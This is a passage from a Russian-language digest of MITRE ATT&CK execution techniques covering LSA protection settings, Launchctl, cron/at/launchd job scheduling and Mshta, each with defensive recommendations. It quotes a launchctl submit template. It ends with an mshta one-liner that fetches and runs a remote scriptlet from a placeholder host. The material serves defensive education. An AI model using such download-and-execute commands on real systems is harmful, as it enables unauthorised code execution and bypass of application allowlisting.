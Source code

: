 _Рекомендации по защите:_ В Windows 8.1 и Windows Server 2012 R2 включите защиту LSA путём установки ключа реестра:  
_HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Lsa\\RunAsPPL_  
в значение _dword:00000001_

Эта защита гарантирует, что загружаемые LSA плагины и драйверы будут подписаны цифровой подписью Microsoft. В Windows 10 и Server 2016 включите _[Windows Defender Credential Guard](https://docs.microsoft.com/en-us/windows/security/identity-protection/credential-guard/credential-guard-manage)_ для запуска lsass.exe в изолированной виртуальной среде. Включите режим безопасного поиска DLL для снижения риска загрузки в lsass.exe вредоносных библиотек:  
_HKEY\_LOCAL\_MACHINE\\System\\CurrentControlSet\\Control\\Session Manager\\SafeDllSearchMode_.

### [Launchctl](https://attack.mitre.org/wiki/Technique/T1152)

_Система:_ macOS  
_Права:_ Пользователь, администратор  
_Описание:_ Launchctl — утилита для управления сервисом Launchd. C помощью Launchctl можно управлять системными и пользовательскими сервисами (LaunchDeamons и LaunchAgents), а также выполнять команды и программы. Launchctl поддерживает подкоманды в командной строке, интерактивные или перенаправленные со стандартного ввода:  
_launchctl submit -l \[labelname\] — /Path/to/thing/to/execute ''arg" ''arg" ''arg"_.  
Запуская и перезапуская сервисы и демоны злоумышленники могут выполнить код и даже обойти белый список, если launchctl является разрешенным процессом, однако загрузка, выгрузка и перезагрузка сервисов и демонов может требовать повышенных привилегий.

_Рекомендации по защите:_ Ограничение прав пользователей на создание Launch Agents и запуск Launch Deamons с помощью групповой политики. С помощью приложения _KnockKnock_ можно обнаружить программы, которые используют launchctl для управления Launch Agents и Launch Deamons.

### [Выполнение с помощью локального планирования задач (Local Job Scheduling)](https://attack.mitre.org/wiki/Technique/T1168)

_Система:_ Linux, macOS  
_Права:_ Пользователь, администратор, root  
_Описание:_ Злоумышленники могут создать в атакуемых системах задания для несанкционированного запуска программ при загрузке системы или по расписанию. В системах Linux и Apple поддерживается несколько методов планирования запуска периодических фоновых задач: cron, at, launchd. В отличие от Планировщика задач Windows, планирование заданий в Linux-системах невозможно осуществить удаленно, за исключением использования удаленных сеансов типа SSH.

_Рекомендации по защите:_ Ограничение прав пользователей на создание планируемых заданий, блокировка системных утилит и другого ПО, которое может использоваться для планирования заданий.

### [Mshta](https://attack.mitre.org/wiki/Technique/T1170)

_Система:_ Windows  
_Права:_ Пользователь  
_Описание:_ Mshta.exe (расположена в _C:\\Windows\\System32\_) — это утилита, которая выполняет приложения Microsoft HTML (*.HTA). HTA-приложения выполняются с использованием тех же технологий, которые использует InternetExplorer, но вне браузера. В связи с тем, что Mshta обрабатывает файлы в обход настроек безопасности браузера злоумышленники могут использовать mshta.exe для прокси-выполнения вредоносных HTA-файлов, Javascript или VBScript. Вредоносный файл можно запустить через встроенный скрипт:  
_mshta vbscript:Close(Execute(«GetObject(»«script:https\[:\]//webserver/payload\[.\]sct»")"))_
